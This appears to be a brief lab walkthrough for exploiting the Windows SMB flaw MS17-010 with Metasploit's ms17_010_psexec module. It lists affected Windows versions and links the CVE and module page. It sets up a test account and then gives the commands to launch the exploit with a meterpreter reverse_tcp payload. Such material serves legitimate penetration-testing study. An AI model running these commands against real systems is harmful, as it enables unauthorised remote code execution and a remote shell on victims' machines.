 
MS17-010  |  SMB Remote Windows Code Execution

https://www.youtube.com/watch?v=JHmGibFL6p8

--------------

MS17-010 SMB Remote Windows Code Execution
https://www.cvedetails.com/cve/cve-2017-0143
https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_psexec

--------------

This module will exploit SMB with vulnerabilities in MS17-010 to achieve a write-what-where primitive. This will then be used to overwrite the connection session information with as an Administrator session.

Affected Windows OS:

    Microsoft Windows 10
    Microsoft Windows 8.1
    Microsoft Windows 7 SP1
    Microsoft Windows Server 2008 R2
    Microsoft Windows Server 2012 R2
    Microsoft Windows Server 2016

--------------

1. For testing purposes, we need to create a new user account

Username: Test

Password: Test123$%^

2. Exploit
```
> use exploit/windows/smb/ms17_010_psexec

> set payload windows/meterpreter/reverse_tcp

> set SMBUser Test
> set SMBPass Test123$%^

> exploit
```

